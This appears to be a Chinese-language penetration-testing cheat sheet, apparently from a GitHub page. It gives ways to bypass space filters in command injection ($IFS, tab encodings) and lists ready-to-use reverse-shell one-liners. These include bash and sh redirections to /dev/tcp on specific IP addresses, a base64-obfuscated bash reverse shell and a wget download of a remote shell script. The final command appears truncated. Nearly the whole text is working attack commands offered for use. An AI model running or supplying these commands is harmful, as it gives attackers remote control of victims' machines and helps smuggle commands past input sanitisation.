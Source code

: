 使用以下字符可以绕过空格

```
tab(%09)
space(%20)
$IFS$9
${IFS}
$IFS
```







## 反弹shell

### 常用语句

```
Windows反弹shell参考https://www.revshells.com/
```

基础: 

```
sh -i >& /dev/tcp/193.168.70.131/4444 0>&1
bash -i >& /dev/tcp/47.115.229.43/4444 0>&1

base64
echo [base64编码的shell] | base64 -d | bash
bash -c {echo,[base64编码的shell]}|{base64,-d}|{bash,-i}

bash -c {echo,YmFzaCAtaSA+JiAvZGV2L3RjcC80Ny4xMTUuMjI5LjQzLzQ0NDQgMD4mMQ==}|{base64,-d}|{bash,-i}
```

远程下载

```
python -m http.server 80
wget http://192.168.70.131/rev.sh
```

Bash read line

```
exec 5<>/dev/tcp/192.168.0.106/9999;cat <&5 | while read line; do $line 2>&5 >&5; done
```

Bash5

```
sh -i 5<> /dev/tcp/192.168.0.106/9999 0<&5 1>&5 2>&5
```

Bash196

```
0<&196;exec 196<>/dev/tcp/192.168.0.106/9999; sh <&196 >&196 2>&19
```

